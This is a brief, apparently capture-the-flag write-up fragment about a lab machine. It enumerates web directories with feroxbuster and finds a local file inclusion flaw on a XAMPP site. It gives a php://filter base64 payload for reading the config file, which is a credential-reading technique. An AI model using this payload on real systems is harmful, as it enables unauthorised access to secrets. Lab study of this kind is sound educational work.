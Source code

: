 ## Website
there is website at 443 and 80

    ➜  trusted feroxbuster --url [http://10.10.193.214](http://10.10.193.214/)

    https://10.10.193.214/dev/

![alt text](<../assets/images/1 (3).png>)

its LFI %100
FUZZing at burp suite

![alt text](../assets/images/Screenshot_2025-01-15_16_23_33.png)

we already know its about xampp so we can check xampp files
php://filter/read=convert.base64-encode/resource=config
lets continue with this